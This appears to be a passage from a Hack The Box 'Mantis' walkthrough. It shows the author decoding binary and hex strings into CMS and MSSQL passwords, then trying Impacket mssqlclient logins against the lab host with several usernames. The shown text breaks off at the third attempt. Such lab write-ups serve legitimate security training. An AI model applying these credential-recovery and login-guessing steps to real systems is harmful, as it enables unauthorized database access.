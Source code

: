 Finally something useful. Seems like I can get the creds for the CMS from here. 

```python

In [11]: import binascii

In [12]: x = int('0b010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001',2)

In [13]: binascii.unhexlify('%x' % x)
Out[13]: b'@dm!n_P@ssW0rd!'

```

![Login](Four.png)

I poked around the admin dashboard and searched for any RCE. Couldn't find anything. Another Rabbit hole, most probably!

It was given the SQL server password is also there in the file, tried loging into the SQL server using the above password. It didn't work.

Checking the secure notes file again gave me the clue. The file name has some encoded stuff present. 

![Decode](Five.png)

The decoded value is in hex, converting it to ASCII.

```bash
┌──(kali㉿kali)-[~/HackTheBox/mantis]
└─$ echo '6d2424716c5f53405f504073735730726421' | xxd -r -p                                                   2 ⨯
m$$ql_S@_P@ssW0rd!  

```

Yeah!! Got the mysql password!

Loggin in!

```bash

┌──(kali㉿kali)-[~/HackTheBox/mantis]
└─$ mssqlclient.py 'sa:m$$ql_S@_P@ssW0rd!@10.10.10.52'                                                        2 ⨯
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Encryption required, switching to TLS
[-] ERROR(MANTIS\SQLEXPRESS): Line 1: Login failed for user 'sa'.
                                                                                                                  
┌──(kali㉿kali)-[~/HackTheBox/mantis]
└─$ mssqlclient.py 'root:m$$ql_S@_P@ssW0rd!@10.10.10.52'
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Encryption required, switching to TLS
[-] ERROR(MANTIS\SQLEXPRESS): Line 1: Login failed for user 'root'.
                                                                              
                                                                              
                 ┌──(kali㉿kali)-[~/HackTheBox/mantis]
└─$ mssqlclient.py 'admin:m$$ql_S@_P@ssW0rd!@10.10.10.52'                                                     1 ⨯
```